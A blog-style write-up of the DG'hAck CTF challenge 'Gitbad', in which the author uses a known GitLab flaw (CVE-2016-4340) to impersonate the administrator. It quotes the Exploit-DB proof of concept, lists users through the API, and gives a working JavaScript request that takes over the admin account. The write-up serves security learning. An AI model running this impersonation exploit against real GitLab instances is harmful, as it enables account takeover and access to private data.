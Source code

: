 ```yaml
---
title: "Writeup DG'hAck: Gitbad"
date: 2020-11-28T05:12:47+01:00
draft: false
tags: ["blog", "security", "ctf", "dghack"]
type: "posts"
showDate: true
---
```


This challenge takes place on a Gitlab instance, where we have to find private data. You start by creating an account, which is automatically validated after a few seconds. Once logged in, you can do a few things, for example:

- create a project
- create a group
- edit your profile
- see the help page
- see public repositories

Nothing seems to be particularly interesting, except for this message, on the help page:

[![The help page showing an "update asap" message](/assets/dghack/gitbad-update-asap.png)](/assets/dghack/gitbad-update-asap.png)

Searching for this version yields [a very interesting CVE](https://www.exploit-db.com/exploits/40236):

```markdown
1. Description
   
Any registered user can "log in" as any other user, including administrators.
 
https://about.gitlab.com/2016/05/02/cve-2016-4340-patches/
 
   
2. Proof of Concept
 
Login as regular user.
Get current authenticity token by observing any POST-request (ex.: change any info in user profile).

Craft request using this as template:
 
POST /admin/users/stop_impersonation?id=root
. . .

_method=delete&authenticity_token=lqyOBt5U%2F0%2BPM2i%2BGDx3zaVjGgAqHzoteQ15FnrQ3E8%3D

Where 'root' - desired user. 'authenticity_token' - token obtained on the previous step.

   
3. Solution:

Use officialy provided solutions:
https://about.gitlab.com/2016/05/02/cve-2016-4340-patches/
```

This exploit allows us to login as someone else, as long as we have their username. But we don't know the username of the administrator!

Let's look at the API documentation on the help page:

[![The users list API endpoints](/assets/dghack/gitbad-list-users.png)](/assets/dghack/gitbad-list-users.png)

Exactly what we need! To use it, we'll need our `private_token`, which can be found in our account settings. Navigating to:

```
http://gitbad2.chall.malicecyber.com/api/v3/users?private_token=a9qPQTK_3N9osyKKyqBy
```

Gives us:

```json
[
  {
    "name": "test",
    "username": "test",
    "id": 5,
    "state": "active",
    "avatar_url": "http://www.gravatar.com/avatar/b642b4217b34b1e8d3bd915fc65c4452?s=80&d=identicon",
    "web_url": "http://b35923e21b4a/u/test"
  },
  {
    "name": "stephan",
    "username": "stephan",
    "id": 4,
    "state": "active",
    "avatar_url": "http://www.gravatar.com/avatar/5222db2651f07bd3ba821b15c08bbdf5?s=80&d=identicon",
    "web_url": "http://b35923e21b4a/u/stephan"
  },
  {
    "name": "Kris",
    "username": "Kris",
    "id": 3,
    "state": "active",
    "avatar_url": "http://www.gravatar.com/avatar/7d1c587c79d19087bae4e15c5362c5fb?s=80&d=identicon",
    "web_url": "http://b35923e21b4a/u/Kris"
  },
  {
    "name": "bobby",
    "username": "bobby",
    "id": 2,
    "state": "active",
    "avatar_url": "http://www.gravatar.com/avatar/c7fa9756c768cb88d639ad16761fc8de?s=80&d=identicon",
    "web_url": "http://b35923e21b4a/u/bobby"
  },
  {
    "name": "Administrator",
    "username": "8e4684f1498aad818870376301b15426",
    "id": 1,
    "state": "active",
    "avatar_url": "http://www.gravatar.com/avatar/e64c7d89f26bd1972efa854d13d7dd61?s=80&d=identicon",
    "web_url": "http://b35923e21b4a/u/8e4684f1498aad818870376301b15426"
  }
]
```

Here we go, the username of the administrator is `8e4684f1498aad818870376301b15426`. We just have to use the exploit we found. I made the request using `fetch`:

```javascript
const form = new FormData();

form.append("_method", "delete");
form.append("authenticity_token", document.querySelector('meta[name=csrf-token]').content);

await fetch("http://gitbad2.chall.malicecyber.com/admin/users/stop_impersonation?id=8e4684f1498aad818870376301b15426", {
    "body": form,
    "method": "POST",
});
```

The request was a bit tricky to get right, for example I initially thought that I had to post URL encoded params.

Entering this little script in our console gives us access to the admin area:

[![The admin area](/assets/dghack/gitbad-admin-area.png)](/assets/dghack/gitbad-admin-area.png)

A repo instantly stands out from the rest: `stephan/my-secret-project`. Reading the code reveals it's a collection of python scripts. The commit history has a particularly suspicious one, called `added my private key`:

[![A suspicious commit](/assets/dghack/gitbad-suspicious-commit.png)](/assets/dghack/gitbad-suspicious-commit.png)

The flag is `W3lL-d0N3-y0u-w1n-a_c4ke!`.

---

[View all of the DG'hAck articles](/tags/dghack).
